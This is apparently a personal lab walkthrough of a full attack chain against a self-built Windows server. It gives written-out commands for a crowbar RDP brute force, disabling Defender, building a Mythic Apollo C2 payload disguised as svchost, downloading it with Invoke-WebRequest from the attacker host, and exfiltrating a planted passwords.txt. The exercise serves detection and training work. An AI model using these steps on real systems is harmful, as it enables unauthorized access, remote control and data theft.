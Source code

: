 
### 1. Introduction

Goal: Perform an RDP brute force attack using Kali Linux, generate a Mythic C2 agent and host it, establish a C2 session from a compromised Windows server and exfiltrate a sensitive file to complete the attack chain.

---

### 2. Objective

- Launch a brute force attack on a Windows server.
- Run discovery and defense evasion commands.
- Build and host a Mythic payload.
- Download and execute the payload on the Windows target.
- Establish a C2 session and exfiltrate the `passwords.txt` file.

---

### 3. Preparing the Windows Server

1. **Create Fake Password File**
    - Navigate to `Documents` and create a file named `passwords.txt`.
        ![[Pasted image 20251018160503.png]]

2. **Change Windows Password**
    
    - Go to:  
        `Start Menu` → Username → `Change Account Settings` → `Sign-in Options` → Password → `Change`
        
    - Set the new password to `Winter2024!`.
        
3. **Adjust Password Policy (if required)**
    
    - Minimum password length: **5 characters**
    - Disable complexity requirements in _Local Group Policy Editor_.
    ![[Pasted image 20251018160803.png]]

---

### 4. Performing RDP Brute Force Attack

1. **Prepare Wordlist**
    - Navigate to Kali Linux terminal:
        
        `cd /usr/share/wordlists 
        `sudo gunzip rockyou.txt.gz 
        `sudo head -50 rockyou.txt > ~/home/kali/mydfir-wordlist.txt 
        `echo "Winter2024!" >> ~/home/kali/mydfir-wordlist.txt
        ![[Screenshot (24).png]]
        
2. **Install Crowbar**
    
    `sudo apt-get update && sudo apt-get upgrade -y 
    `sudo apt-get install -y crowbar`
    
3. **Create Target File**
    
    - Add Windows Server IP and username.
        
4. **Run Brute Force Attack**
    
    `crowbar -b rdp -u Administrator -C Challenge-Wordlist.txt -s <MYDFIR-WIN-emaan-IP>/32`
    
5. **Successful Login**
    
    - Username: `Administrator`
    - Password: `Winter2024!`
        
![[Pasted image 20251018163154.png]]

---

### 5. Connecting to the Windows Server

1. **Establish RDP Session**
    
    `xfreerdp /u:Administrator /p:Winter2024! /v:<MYDFIR-WIN-IP>:3389`
    
2. **Trust the certificate** to complete the connection.
    
![[Screenshot 2025-10-18 163516.png]]
---

### 6. Discovery Phase

Run basic discovery commands in PowerShell or CMD:

`whoami 
`ipconfig 
`net user 
`net group 
`net user Administrator`
![[Pasted image 20251018164112.png]]
![[Pasted image 20251018164424.png]]
---

### 7. Defense Evasion

Disable Windows Defender:

- Open **Windows Security** → **Virus & Threat Protection**.
- Disable Real-time protection and other security features.
![[Pasted image 20251018164559.png]]
---

### 8. Execution Phase (Mythic Agent Setup)

1. **Access Mythic Server**
    
    `ssh root@<MYDFIR-MYTHIC-IP>`
    
2. **Install Apollo Agent**
    
    `./mythic-cli install github https://github.com/MythicAgents/Apollo.git`
    
    ![[Screenshot (25).png]]
    
3. **Install HTTP C2 Profile**
    
    `./mythic-cli install github https://github.com/MythicC2Profiles/http`
    
    ![[Pasted image 20251018165718.png]]
    
4. **Create Payload in Mythic Web GUI**
    
    - Target OS: **Windows**
    - Output Format: **WinExe**
    - Commands: **Include All**
    - C2 Profile: **HTTP**
    - Callback Host: `http://<MYDFIR-MYTHIC-IP>`
    - Port: `80`
    - Payload Name: `apollo.exe`

![[Pasted image 20251018170233.png]]

---

### 9. Hosting and Downloading Payload

1. **Download Payload, Rename file to "svchost-emaan.exe", move the file to a new directory**
    
    `wget <payload_download_link> --no-check-certificate
    `mv lcd5d49e-680e-4478-8526-708858e25b14 svchost-emaan.exe`
    
    ![[Pasted image 20251018170657.png]]
    
2. **Serve Payload over HTTP**
    
    `ufw allow 80 
    `ufw allow 9999`
    `python3 -m http.server 9999`

![[Pasted image 20251018171055.png]]
![[Pasted image 20251018171120.png]]
3. **Download on Windows Target**
    
    `Invoke-WebRequest -Uri http://<MYDFIR-MYTHIC-IP>:9999/svchost-emaan.exe -OutFile "C:\Users\Public\Downloads\svchost-emaan.exe"`
    
    - Navigate into "C:\Users\Public\Downloads" to check if the file has been downloaded.
    
    ![[Pasted image 20251018172206.png]]

    
3. **Execute Payload**
    
    `.\svchost-emaan.exe`
    
4. **Verify Connection**
    
    `netstat -anob`
    
    - Also check Task Manager or Mythic GUI callbacks.
    
---

### 10. Establishing C2 Connection

- Open Mythic Web GUI → **Active Callbacks**.
- Interact with the agent and run:
    
    `whoami 
    `ipconfig`
    ![[Pasted image 20251018173109.png]]




---

### 11. Exfiltration

1. **Download the Target File**
    
    `download C:\Users\Administrator\Documents\passwords.txt`
    
2. **Verify in Mythic Web GUI**
    
    - Navigate to **Files** → Check `passwords.txt` contents.
        


**Reference**
https://youtu.be/85x0NLj2zUo?si=_cpuOgH-OqAYwgYo